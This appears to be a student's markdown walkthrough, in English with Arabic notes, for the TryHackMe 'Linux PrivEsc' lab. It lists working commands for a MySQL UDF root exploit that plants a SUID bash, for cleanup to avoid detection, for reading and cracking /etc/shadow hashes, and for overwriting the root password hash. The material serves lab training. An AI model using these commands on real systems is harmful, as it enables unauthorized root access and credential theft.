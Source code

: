 # Linux PrivEsc

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>




  
</details>































































